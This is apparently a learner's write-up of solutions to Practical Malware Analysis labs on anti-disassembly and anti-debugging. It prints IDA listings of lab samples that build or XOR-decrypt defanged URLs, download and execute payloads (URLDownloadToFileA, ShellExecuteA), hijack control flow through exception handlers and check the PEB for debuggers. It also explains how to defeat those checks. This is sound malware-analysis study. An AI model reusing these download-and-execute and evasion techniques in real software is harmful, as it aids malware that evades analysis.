









This page documents the solutions to the labs found in the book [Practical Malware Analysis](https://nostarch.com/malware). While the solutions are found in the back of the book, I find it useful to write things in my own words for learning purposes.

I will be updating the page over time.

* toc
{:toc}

# chapter 15 -- anti-disassembly
This chapter focuses on anti-disassembly techniques used by malware programmers and how to defeat them.

## 15-1
This program's sole purpose is to take an argument and print "good job" if the secret code has been identified.

After identifying the `main()` function (`loc_401000`), we already see some disassembly errors noted by IDA.



Generally, disassemblers will evaluate the false path of a conditional jump first and trust that disassembled code. This sometimes causes the true path to be nonsensical when its evaluated if code is written in a particular manner. In the above image, you'll notice that the jump points to a byte inside the `call` instruction itself which isn't really valid.

To fix this problem, simply convert the `call` instruction into data and then convert the opcodes after 0xe8 into code. Once you covert that data into code, you may notice some other operations get turned into data. Simply continue down the list until no more data so you'll see something like the following.



You'll need to repeat this process 4 more times when you see the broken `call` instructions. Once you're finished, you should see something like the following.



Now we're able to analyze the once obfuscated code blocks. You can ultimately ignore the `db 0E8h` lines, or you can convert them into `nop` instructions if they bother you--either way, they aren't used.

Each code block appears to be moving the user's input into a register and then comparing that register's value to some hex value. If you know your ASCII table, you'll know that the values being compared are the characters 'p' (0x70), 'q' (0x71), and 'd' (0x64). 

If you attempted to enter the characters in the order in which they're seen in (i.e. pqd), you'll fail the challenge. This is because the second code block is comparing the third character of the user string with the password. Therefore, the correct order for the password is 'pdq'.

## 15-2
The `main()` function starts at `loc_401000`. Scrolling down, broken disassembly can be found starting at `401163`.



Converting this data to code gives us the following output:



Note that I also converted the `jmp` above this block into data as it's not really important. In this data-now-code, we see a call to `sub_401386`. Opening this function gives us a simple function which appears to be building string one character at a time. Converting the hex values into characters gives us the following URL: `hxxp://www.practicalmalwarenalysis.com/bamboo.html`

To determine how the `user-agent` is generated, we need to know what function actually makes use of this field. There are a couple of function calls to Windows API functions like `InternetOpenA` and `InternetOpenURLA`, so it's only a matter of seeing which one actually makes use of the `user-agent`. Searching the internet for [InternetOpenA](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena) gives us the following arguments:

```
void InternetOpenA(
  LPCSTR lpszAgent,
  DWORD  dwAccessType,
  LPCSTR lpszProxy,
  LPCSTR lpszProxyBypass,
  DWORD  dwFlags
);
```

Reading the documentation, the parameter `lpszAgent` is used as the `user-agent` in HTTP.

```
.text:0040113F loc_40113F:                             ; CODE XREF: .text:00401098↑j
.text:0040113F                                         ; .text:004010B0↑j
.text:0040113F                 push    0
.text:00401141                 push    0
.text:00401143                 push    0
.text:00401145                 push    1
.text:00401147                 lea     edx, [ebp-100h]
.text:0040114D                 push    edx ;pointer to user-agent string
.text:0040114E                 call    ds:InternetOpenA
```

Since arguments are pushed in reverse order (right to left), the value pointed to by `edx` (`[ebp-100]`) is going to be the `user-agent` string. 

```
.text:00401047 loc_401047:                             ; CODE XREF: .text:0040103D↑j
.text:00401047                 push    100h
.text:0040104C                 lea     ecx, [ebp-100h]
.text:00401052                 push    ecx
.text:00401053                 call    ds:gethostname
.text:00401059                 test    eax, eax
.text:0040105B                 jnz     short loc_401073
.text:0040105D                 push    offset aNotEnoughName ; "not enough name"
.text:00401062                 call    ds:printf
.text:00401068                 add     esp, 4
.text:0040106B                 or      eax, 0FFFFFFFFh
.text:0040106E                 jmp     loc_401308
```

We see a call to [gethostname](https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-gethostname) which takes a `char` pointer that will be used to hold the hostname of the machine and a second argument which states how long the buffer should be (0x100 in this case). After the call, `ecx` will contain the pointer to the buffer which contains the hostname.

The blocks of code that follow are ultimately taking the hostname and obfuscating it by adding 1 to every character in the hostname string with some exceptions. If the character is Z or 9, the loop rolls over to A or 0, respectively.

When the target web page has been downloaded, the program then searches for the string "Bamboo::" and then it searches again for "::". 



After the above block of code, we see a `jmp` which appears to jump into itself and then some nonsensical data which happens after the jump.



The jump is technically invalid, so converting it to data then converting the byte after the jump opcode into code reveals new information.



However, again, we see some more nonsense, so we just repeat our process of turning code into data and then back again to reveal some new instructions. One interesting instruction is the call to `sub_40130f` which, like `sub_401386`, simply sets up a string called "Account Summary.xls.exe". After the file is retrieved, it's executed in a shell as noted by `ShellExecuteA` and the malware is now running on the machine.

## 15-3
This piece of malware attempts to be tricky by disguising itself as a typical program. Running the application shows it to be a very basic process monitor. However, opening the program in IDA shows a call to `URLDownloadToFileA` which seems suspicious.

We need to find where the malware starts its execution. At first glance, there doesn't seem to be a valid code path that gets to the function call `URLDownloadToFileA`. The start of the `main()` function, we see the typical function prologue stuff and then some odd instructions. 

```
.text:0040100C                 mov     eax, 400000h
.text:00401011                 or      eax, 148Ch
.text:00401016                 mov     [ebp+4], eax
```

The value 0x400000 is moved into `eax` and then `or`ed with 0x148c gives you 0x40148c and then this value is placed into `[ebp+4]`. Using IDA's stack frame view to see that `[ebp+4]` is going to be the return address when the `main()` function finishes. Navigating to this address gives us the start of some other code. The code is broken and needs to be fixed up, but after fixing it it doesn't appear necessarily malicious at first glance.

```
.text:00401497 loc_401497:                             ; CODE XREF: .text:00401494↑j
.text:00401497                 push    offset loc_4014C0
.text:0040149C                 push    large dword ptr fs:0
.text:004014A3                 mov     large fs:0, esp
.text:004014AA                 xor     ecx, ecx
.text:004014AC                 div     ecx
.text:004014AE                 push    offset aForMoreInforma ; "For more information please visit our w"...
.text:004014B3                 call    printf
.text:004014B8                 add     esp, 4
.text:004014BB                 pop     edi
.text:004014BC                 pop     esi
.text:004014BD                 pop     ebx
.text:004014BE                 pop     ebp
.text:004014BF                 retn
``` 

One thing that stands out is that this code appears to be messing with the process environment block by adding its own code to be picked up by the exception handler when an exception occurs. It then forces an exception by causing a divide by zero, so the code after the `div` instruction doesn't actually execute. Once the exception occurs, the code will jump to 0x4014c0.

Again, the disassembly is broken at this address, so it needs to be fixed up by converting data to code and code to data like we have been doing. The resulting code ends up as the following.

```
.text:004014C0 loc_4014C0:                             ; DATA XREF: .text:loc_401497↑o
.text:004014C0                 mov     esp, [esp+8]
.text:004014C4                 mov     eax, large fs:0
.text:004014CA                 mov     eax, [eax]
.text:004014CC                 mov     eax, [eax]
.text:004014CE                 mov     large fs:0, eax
.text:004014D4                 add     esp, 8
.text:004014D4 ; ---------------------------------------------------------------------------
.text:004014D7                 db 0EBh
.text:004014D8 ; ---------------------------------------------------------------------------
.text:004014D8                 inc     eax
.text:004014DA                 dec     eax
.text:004014DB                 call    $+5
.text:004014E0                 push    ebp
.text:004014E1                 mov     ebp, esp
.text:004014E3                 push    ebx
.text:004014E4                 push    esi
.text:004014E5                 push    edi
.text:004014E6                 push    offset unk_403010
.text:004014EB                 call    sub_401534
.text:004014F0                 add     esp, 4
.text:004014F3                 push    offset unk_403040
.text:004014F8                 call    sub_401534
.text:004014FD                 add     esp, 4
.text:00401500                 push    0
.text:00401502                 push    0
.text:00401504                 push    offset unk_403040
.text:00401509                 push    offset unk_403010
.text:0040150E                 push    0
.text:00401510                 call    URLDownloadToFileA
.text:00401515                 jz      short loc_40151A
.text:00401517                 jnz     short loc_40151A
```

In this block, we see 2 calls to the same function, `sub_401534` but with different arguments. The arguments seem to be strings of seemingly random data. Inside the function, we see a loop with an `xor` operation which indicates that this loop is likely decrypting those random strings of data.

```
.text:00401534 sub_401534      proc near               ; CODE XREF: .text:004014EB↑p
.text:00401534                                         ; .text:004014F8↑p
.text:00401534
.text:00401534 arg_0           = dword ptr  8
.text:00401534
.text:00401534                 push    ebp
.text:00401535                 mov     ebp, esp
.text:00401537
.text:00401537 loc_401537:                             ; CODE XREF: sub_401534+26↓j
.text:00401537                 mov     eax, [ebp+arg_0]
.text:0040153A                 movsx   ecx, byte ptr [eax]
.text:0040153D                 test    ecx, ecx
.text:0040153F                 jz      short loc_40155C
.text:00401541                 mov     edx, [ebp+arg_0]
.text:00401544                 movsx   eax, byte ptr [edx]
.text:00401547                 xor     eax, 0FFh
.text:0040154C                 mov     ecx, [ebp+arg_0]
.text:0040154F                 mov     [ecx], al
.text:00401551                 mov     edx, [ebp+arg_0]
.text:00401554                 add     edx, 1
.text:00401557                 mov     [ebp+arg_0], edx
.text:0040155A                 jmp     short loc_401537
.text:0040155C ; ---------------------------------------------------------------------------
.text:0040155C
.text:0040155C loc_40155C:                             ; CODE XREF: sub_401534+B↑j
.text:0040155C                 pop     ebp
.text:0040155D                 retn
```

Decrypting the 2 strings gives us:
* `hxxp://www.practicalmalwareanalysis.com/tt.html`
* `spoolsrv.exe`

The first string is a web address which is used to pull down data and it writes that data into a file named spoolsrv.exe to do something malicious.

After this has been completed, the malware terminates by using `ExitProcess`.

# chapter 16 -- anti-debugging
This chapter primarily focused on anti-debugging techniques used by Windows programs.

## 16-1
Since we know this program has anti-debugging baked in, I decided to open the program in IDA first. The `main()` function was determined to start in `sub_403530()`.

Within the main function, we see some instructions which are accessing the [process environment block (PEB)](https://en.wikipedia.org/wiki/Process_Environment_Block).

```
.text:00403540                 mov     [ebp+var_1824], 0
.text:0040354A                 mov     [ebp+var_1828], 0
.text:00403554                 mov     eax, large fs:30h
.text:0040355A                 mov     bl, [eax+2]
.text:0040355D                 mov     [ebp+var_1820], bl
.text:00403563                 movsx   eax, [ebp+var_1820]
.text:0040356A                 test    eax, eax
.text:0040356C                 jz      short loc_403573
.text:0040356E                 call    sub_401000
;...
.text:00403573                 mov     eax, large fs:30h
.text:00403579                 mov     eax, [eax+18h]
.text:0040357C                 db      3Eh
.text:0040357C                 mov     eax, [eax+10h]
.text:00403580                 mov     [ebp+var_1824], eax
.text:00403586                 cmp     [ebp+var_1824], 0
.text:0040358D                 jz      short loc_403594
.text:0040358F                 call    sub_401000
;...
.text:00403594                 mov     eax, large fs:30h
.text:0040359A                 db      3Eh
.text:0040359A                 mov     eax, [eax+68h]
.text:0040359E                 sub     eax, 70h
.text:004035A1                 mov     [ebp+var_1828], eax
.text:004035A7                 cmp     [ebp+var_1828], 0
.text:004035AE                 jnz     short loc_4035B5
.text:004035B0                 call    sub_401000
```

Each of these different blocks accesses a different part of the PEB. These different parts contain different types of information to state whether or not a process is being debugged. In order from top to bottom the program is looking for
* `BeingDebugged` flag at PEB+0x2 with a non-zero value
* `ForceFlags` at PEB+0x18+0x10 with a non-zero value
* `NtGlobalFlags` at PEB+0x68 with a value of 0x70

If the test fails, then `sub_401000` is called which causes the program to immediately stop and delete itself from the machine. There are a few ways to avoid the anti-debugging measures:
* manually patch all of the jump instructions
* replace the `call`s to `sub_401000` with `nop`
* manually modify the PEB structure locations referenced by the program
* use a plugin that aids in anti-anti-debugging

Manually patching instructions would likely take a while unless you wrote a script to patch the program because the jumps and calls are sprinkled throughout the program itself, so while this is possible, it would be tedious.

Modifying the PEB would be another option as long as you identified the proper place in memory where the flags are set. We know that the PEB starts at `fs:[0x30]`, so in x32dbg's dump window, we can navigate to that address by pressing `ctrl+g` then entering that value in the box.



Once you identify the PEB, you can start clearing values in the PEB to prevent the checks from occurring. This is as simple as clearing the values in memory and setting them to 0. The only exception is the `ForcedFlags` field. Instead, you set the pointer to the `ProcessHeap` array to 0.

Alternatively, you can avoid all of this suffering and just install a plugin called [ScyllaHide](https://github.com/x64dbg/ScyllaHide), or a plugin of your choice if you know of a better one. This will basically do what we did manually to the PEB plus a lot of extra options.


